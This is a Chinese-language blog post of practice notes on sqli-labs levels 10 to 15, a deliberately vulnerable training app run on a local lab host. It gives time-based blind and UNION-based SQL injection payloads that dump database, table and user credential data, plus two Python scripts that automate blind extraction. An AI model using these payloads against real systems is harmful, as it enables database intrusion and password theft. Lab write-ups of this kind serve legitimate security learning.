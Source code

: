 ```yaml
---
layout: post
title: "sqli-labs-第10关->第15关"
subtitle: "sqli-labs-第10关->第15关"
date: 2019-08-30
author: ppbibo
category: security
finished: true
---
```

[TOC]

PS：最近总是不知道学啥了所以复习下sql注入，总结下笔记。

接着上次的继续-[传送门]([https://6o9.im/security/2019/02/14/Sqli-labs-%E5%AD%A6%E4%B9%A0-%E9%95%BF%E6%9C%9F%E6%9B%B4%E6%96%B0.html](https://6o9.im/security/2019/02/14/Sqli-labs-学习-长期更新.html))



## sqli-labs 第10关

观察源代码发现闭合双引号即可-如下：

```mysql
http://192.168.1.101/sqli-labs/Less-10/?id=2" and sleep(5)%23
```

上面语句成功延时5秒判断存在时间盲注

```mysql
http://192.168.1.101/sqli-labs/Less-10/?id=2" and if(1=2,sleep(5),1)%23
```

上面利用if语句来判断条件表达式不成立，所以没有延时，确定存在基于时间的sql注入

```mysql
http://192.168.1.101/sqli-labs/Less-10/?id=2?id=2"  and If(ord(substr(database(),1,1))=115,sleep(5),1)%23
```

根据payload写出python脚本

思路：

数据库的长度一般不会超过20个字符所有利用range(21) 循环出 1-20 ，这里因为是靶机我们知道数据库全部为字母（ascii 码值 a-z:97-122）所以利用range(97,123 )循环出97-122 ，将他们进行循环遍历，这里用到 timeout(3) 来进行异常处理，最大处理时间为3秒。

判断条件成立就会延时5秒再回显结果，而接收请求最大秒数我们定义了3秒，所以会爆请求超时的异常。

```python

import requests

for j in range(21):

    for i in range(97,123):

        try:
            re = requests.request("get",url="http://192.168.1.101/sqli-labs/Less-10/?id=2?id=1%22%20and%20if(ord(substr(database(),{},1))={},sleep(5),1)%23".format(j,i),timeout=3)
            continue

        except:

            print(chr(i))

```

**RT：**

![sqli-labs-10](/static/img/sqli-labs-10.png)

成功输出当前数据库的名称。



## sqli-labs 第11关 

查看源代码**RT：**

![sqli-labs-11](/static/img/sqli-labs-11.png)

order by 判断字段 **RT:**

```mysql
POST:
username=a' order by 3#     
```

```mysql
POST:
username=a' union select 1,2#
```

![sqli-labs-11-1](/static/img/sqli-labs-11-1.png)



查看当前用户可操作的所有数据库 **RT：**

```mysql
POST:
username=a' union select 1,group_concat(schema_name) from information_schema.schemata#
```

![sqli-labs-11-2](/static/img/sqli-labs-11-2.png)

当前数据库为 security 所以查看下 security 数据库下面的表 **RT :**

```mysql
POST:
username=a' union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'security'#
```

![sqli-labs-11-3](/static/img/sqli-labs-11-3.png)

知道了表名接下来就是字段了 **RT：**

```mysql
POST:
username=a' union select 1,group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name = 'users'#
```

![sqli-labs-11-4](/static/img/sqli-labs-11-4.png)

字段直接查询即可,得到所有的用户名密码，如下：

```mysql
POST:
username=a' union select 1,group_concat(username,password) from users#
```



## sqli-labs 第12关 

观察源代码 **RT :**

![sqli-labs-12](/static/img/sqli-labs-12.png)



闭合前面的符号达到sql注入 **RT：**：

```mysql
POST:
username=1") order by 4#
```

![sqli-labs-12-1](/static/img/sqli-labs-12-1.png)



接下来和上一关是一样的，参考 sqli-labs 第11关。

```bash
1") union select 1,group_concat(schema_name) from information_schema.schemata#
```

```bash
1") union select 1,group_concat(table_name) from information_schema.tables where table_schema='security'#
```

```bash
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1") union select 1,group_concat(username,password) from users#
```



##sqli-labs 第13关  

还是看了下源代码 **RT：**

![sqli-labs-13](/static/img/sqli-labs-13.png)



闭合前面的语句执行我们想要的sql语句 **RT :**

![sqli-labs-13-1](/static/img/sqli-labs-13-1.png)

接下来还是那么的顺利，参考 sqli-labs 第12关

```bash
1') union select 1,group_concat(schema_name) from information_schema.schemata#
```

```bash
1') union select 1,group_concat(table_name) from information_schema.tables where table_schema='security'#
```

```bash
1') union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1') union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1') union select 1,group_concat(username,password) from users#
```



## sqli-labs 第14关 

查看源代码 **RT：**

![sqli-labs-14](/static/img/sqli-labs-14.png)



闭合执行sql语句（判断存在几个字段）

![sqli-labs-14-1](/static/img/sqli-labs-14-1.png)

接下来一切顺理成章

```bash
1" union select 1,group_concat(schema_name) from information_schema.schemata#
```

```bash
1" union select 1,group_concat(table_name) from information_schema.tables where table_schema='security'#
```

```bash
1" union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1" union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1" union select 1,group_concat(username,password) from users#
```



## sqli-labs 第15关 

写完就回去了，还是看源代码 **RT:**

![sqli-labs-15](/static/img/sqli-labs-15.png)



![sqli-labs-15-1](/static/img/sqli-labs-15-1.png)

执行sql语句 **RT：**

```mysql
1' or 1=1#
```

![sqli-labs-15-2](/static/img/sqli-labs-15-2.png)

猜测数据库的长度为8位 **RT：**

```mysql
1' or (length(database()))=8#
```

调试中 **RT:**

![sqli-labs-15-debug](/static/img/sqli-labs-15-debug.png)

输出脚本 **RT**：

```python
import requests

sql_url = "http://192.168.1.101/sqli-labs/Less-15/"

for j in range(9): # 前面知道了数据库长度为8位

    for i in range(97, 123):  # ascii 码值 a-z : 97-122

        re = requests.request("POST",url=sql_url,data={"uname":"1' or ord(mid((select database()),{},1))={}#".format(j,i),"passwd":"1"})

        if "flag.jpg" in re.text:

            print(chr(i))
```

![sqli-labs-15-3](/static/img/sqli-labs-15-3.png)



## 总结

**持续更新先记下**

万变不离其宗只要有数据库发生互交的地方不管输入点在哪，只要没有进行绝对的交验就会发生SQL注入，手指以麻痹，回家吃手抓饼，告辞。